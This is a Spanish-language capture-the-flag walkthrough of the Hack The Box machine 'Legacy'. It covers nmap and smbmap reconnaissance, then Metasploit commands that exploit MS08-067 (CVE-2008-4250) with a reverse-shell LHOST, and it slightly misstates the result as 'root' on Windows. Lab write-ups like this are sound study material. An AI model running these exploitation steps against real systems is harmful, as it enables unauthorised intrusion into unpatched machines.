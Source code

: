 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 10/10/2017'
---
```


# Legacy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.4
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.4
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 135 (MS RPC):** Este puerto es utilizado para la comunicación de servicios como DCOM y MSRPC. Puede ser vulnerable a exploits si no está debidamente asegurado. Puedes buscar si hay alguna versión vulnerable de MSRPC, como las que se vieron con ataques como MS08-067.
* **Puerto 139 y 445 (SMB):** Ambos puertos están asociados a servicios de compartición de archivos y recursos en redes Windows. Los vectores de ataque conocidos incluyen ataques de SMB Relay y exploits como EternalBlue (CVE-2017-0144). Es recomendable realizar un escaneo de vulnerabilidades para verificar si estos puertos son accesibles desde fuera y si están expuestos a vulnerabilidades conocidas.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 10.10.10.4
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el protocolo SMB.

```bash
smbmap -H 10.10.10.4
```

No vemos nada. Revisamos si tiene un CVE.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al ser un Windows XP y revisando por internet encontramos que hay un **CVE-2008-4250** por lo que abrimos Metasploit para explotarlo.

```bash
search CVE-2008-4250
use 0
show options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.7
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
getuid
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos **root**.

<figure><img src="../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>
